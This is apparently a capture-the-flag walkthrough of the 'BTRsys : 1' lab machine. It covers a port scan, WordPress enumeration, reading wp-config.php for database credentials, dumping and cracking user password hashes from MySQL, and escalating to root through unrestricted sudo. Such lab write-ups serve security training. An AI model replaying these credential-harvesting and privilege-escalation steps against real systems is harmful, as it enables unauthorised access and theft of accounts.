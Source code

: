 ```yaml
---
title: "BTRsys : 1"
categories: [Proving Grounds, Play]
tags: [mysql, Wordpress, PrivEsc, CMS]
image:
  path: /Vulnhub-Files/img/BTRsys-1/Untitled%201.png
  alt:  "BTRsys : 1 Machine 🖥️"
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled.png)

```bash
IP : 192.168.249.138
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BTRsys]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.138
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 02:11 EDT
Nmap scan report for pinkydb (192.168.249.138)
Host is up (0.00086s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.249.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:A7:26:87 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%202.png)

Now lets try to find the user with wpscan tool →

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%206.png)

```bash
www-data@ubuntu:/$ uname -an
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}
{: .nolineno}

Lets see the wp-config.php file →

```bash
www-data@ubuntu:/var/www/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You do not have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Do not change this if in doubt. */
define('DB_COLLATE', '');
/** */
define('WP_HOME','/wordpress/');
define('WP_SITEURL','/wordpress/');
...
```
{: .nolineno}
{: .nolineno}

Lets try for mysql login →

```bash
mysql> select * from wp_users \G ;
*************************** 1. row ***************************
                 ID: 1
         user_login: root
          user_pass: a318e4507e5a74604aafb45e4741edd3 : roottoor
      user_nicename: btrisk
         user_email: mdemir@btrisk.com
           user_url: 
    user_registered: 2017-04-24 17:37:04
user_activation_key: 
        user_status: 0
       display_name: btrisk
*************************** 2. row ***************************
                 ID: 2
         user_login: admin
          user_pass: 21232f297a57a5a743894a0e4a801fc3
      user_nicename: admin
         user_email: ikaya@btrisk.com
           user_url: 
    user_registered: 2017-04-24 17:37:04
user_activation_key: 
        user_status: 4
       display_name: admin
2 rows in set (0.00 sec)

ERROR: 
No query specified

mysql>
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%207.png)

Now lets dig deeper →

```bash
btrisk@ubuntu:/var/www/html/wordpress$ sudo -l
[sudo] password for btrisk: 
Matching Defaults entries for btrisk on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User btrisk may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
btrisk@ubuntu:/var/www/html/wordpress$ sudo /bin/bash -i
root@ubuntu:/var/www/html/wordpress# whoami
root
root@ubuntu:/var/www/html/wordpress# cd ~
root@ubuntu:~# ls -al
total 40
drwxr-xr-x 4 btrisk 1000 4096 Apr 24  2017 .
drwxr-xr-x 3 root   root 4096 Mar 17  2017 ..
-rw------- 1 btrisk 1000  243 May  2  2017 .bash_history
-rw-r--r-- 1 btrisk 1000  220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 btrisk 1000 3771 Mar 17  2017 .bashrc
drwx------ 2 btrisk 1000 4096 Mar 17  2017 .cache
-rw------- 1 btrisk 1000  453 Mar 23  2017 .mysql_history
drwxrwxr-x 2 btrisk 1000 4096 Mar 21  2017 .nano
-rw-r--r-- 1 btrisk 1000  655 Mar 17  2017 .profile
-rw-r--r-- 1 btrisk 1000    0 Mar 17  2017 .sudo_as_admin_successful
-rw------- 1 btrisk 1000  586 Mar 21  2017 .viminfo
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }